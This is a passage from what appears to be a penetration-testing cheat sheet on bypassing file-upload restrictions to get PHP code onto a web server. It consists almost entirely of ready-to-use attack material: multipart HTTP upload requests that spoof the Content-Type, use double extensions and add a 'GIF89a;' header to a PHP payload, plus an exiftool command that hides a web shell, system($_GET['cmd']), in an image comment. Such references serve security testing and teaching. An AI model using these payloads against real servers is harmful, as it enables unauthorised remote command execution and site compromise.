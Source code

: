```
      echo '?>' >> shell.php.png

- All at the same time.
```
### Change the ContentType
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

############################################################################

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```
### Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php

############################################################################

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
### Upload the payload, but start with GIF89a;
```
POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
### Bypass getimagesize()
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
```